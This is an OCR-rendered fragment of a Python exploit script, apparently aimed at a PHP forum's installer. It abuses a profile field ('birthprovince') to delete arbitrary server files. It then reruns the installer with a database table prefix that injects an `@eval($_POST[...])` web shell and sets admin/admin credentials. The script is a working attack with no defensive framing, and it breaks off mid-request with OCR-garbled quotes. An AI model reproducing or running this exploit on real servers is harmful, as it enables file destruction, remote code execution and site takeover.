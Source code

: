 ```

‘profilesubmit’: (None, ‘true’),

‘birthprovince’: (None, file_to_delete)

}

r = sess.post(url, files=data)

if ‘parent.show_success’ in r.text:

print(‘tamperred successfully’)

return True

def delete(formhash, file):

if not tamper(formhash, file):

return False

```
image = b'iVBORw0KGgoAAAANSUhEUgAAAAoAAAAKCAIAAAACUFjqAAAADUlEQVR4nGNgGAWkAwABNgABVtF/yAAAAABJRU5ErkJggg=='
data = {
    'formhash': formhash,
    'profilesubmit': 'true'
}
files = {
    'birthprovince': ('image.png', base64.b64decode(image), 'image/png')
}
r = sess.post(url, data=data, files=files)
if 'parent.show_success' in r.text:
    print('delete {} successfully'.format(file))
    return True 
```

def getshell():

install_url = target + ‘/install/index.php’

r = sess.get(install_url)

if ‘安装向导’ not in r.text:

print(‘install directory not exists’)

return False

```
table_prefix = "x');@eval($_POST[{}]);('".format(shell_password)
data = {
    'step': 3,
    'install_ucenter': 'yes',
    'dbinfo[dbhost]': db_host,
    'dbinfo[dbname]': db_name,
    'dbinfo[dbuser]': db_user,
    'dbinfo[dbpw]': db_pw,
    'dbinfo[tablepre]': table_prefix,
    'dbinfo[adminemail]': 'admin@admin.com',
    'admininfo[username]': 'admin',
    'admininfo[password]': 'admin',
    'admininfo[password2]': 'admin',